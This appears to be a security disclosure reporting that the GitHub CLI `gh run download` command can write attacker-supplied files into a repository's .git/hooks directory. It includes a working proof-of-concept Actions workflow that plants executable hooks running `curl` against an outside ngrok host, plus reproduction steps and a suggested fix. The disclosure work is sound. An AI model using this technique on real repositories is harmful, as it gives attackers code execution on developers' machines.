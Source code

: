 # CLI: implementation of `gh run download` command allows creating local git hooks leading to code execution on user device

Hi there!

https://github.com/Metnew

## Dev

```
git clone https://github.com/Metnew/gh_run_download_git_artifacts ./poc
cd poc
gh run download
git checkout
```

## Description: 

```
USAGE
  gh run download [<run-id>] [flags]

FLAGS
  -D, --dir string         The directory to download artifacts into (default ".")
```

By default, `gh run download` command puts artifacts in the current dir. It can't overwrite files though, only create new ones. There also no restrictions on the name of the files to be written (except for the path traversal check).

It means, it's possible to craft a malicious archive of artifacts that creates new files under `<root>/.git/*` upon `gh run download`. Achieving code execution is simple in this case, we can just write git hooks to `<root>/.git/hooks/*`. 

> Or `<root>/.git/modules/<module>/hooks` if any submodule is present.

> I can't imagine someone managing to have all of possible client-side git hooks (even non-standard!) configured, so there always be a place for a malicious one (+ git-p4* hooks). 
```
applypatch-msg        pre-commit
commit-msg            pre-merge
fsmonitor-watchman    pre-merge-commit
post-applypatch       pre-push
post-checkout         pre-rebase
post-index-change     pre-receive
post-merge            prepare-commit-msg
post-rewrite          push-to-checkout
post-update           reference-transaction
pre-applypatch        sendemail-validate
pre-auto-gc           update
```

## Triggering code execution
Malicious code will be executed upon almost any porcelain git command.
`git fetch`, `pull`, `push`, `checkout`, `commit`, `merge`, `rebase`, `am` **and even on** `git add/rm`!

## Crafting a repo producing malicious artifacts
> See {f} for a poc git repo that has Github actions producing malicious artifacts.

`.github/workflows/action.yaml` produces malicious artifacts.
```
name: Crafting some malware here

on: [push]

jobs:
  build_and_test:
    runs-on: ubuntu-latest
    steps:
      - name: Checkout repository
        uses: actions/checkout@v2
      - run: |
          rm -rf .git/*
          mkdir -p .git/hooks
          export PAYLOAD="curl https://metnew.ngrok.io"
          declare -a arr=("applypatch-msg" "pre-commit" "commit-msg" "pre-merge" "fsmonitor-watchman" "pre-merge-commit" "post-applypatch" "pre-push" "post-checkout" "pre-rebase" "post-index-change" "pre-receive" "post-merge" "prepare-commit-msg" "post-rewrite" "push-to-checkout" "post-update" "reference-transaction" "pre-applypatch" "sendemail-validate" "pre-auto-gc" "update")
          echo "$PAYLOAD"
          for i in "${arr[@]}"
          do
             echo "$PAYLOAD/$i" > ".git/hooks/$i"
             chmod +x ".git/hooks/$i"
          done
      - name: Archive production artifacts
        uses: actions/upload-artifact@v2
        with:
          name: artifacts
          path: |
            ./
```


## Steps to Reproduce:

1. Craft a malicious repository
2. `gh repo clone <you>/<repo>`
3. `gh run download 1`
4. `git add ./` OR `git fetch` OR `git checkout -b newbranch`

## How to fix?

Make `gh run download` writing in a folder if `.git` is already present OR ignore `.git/*` files if they're present in the artifacts.
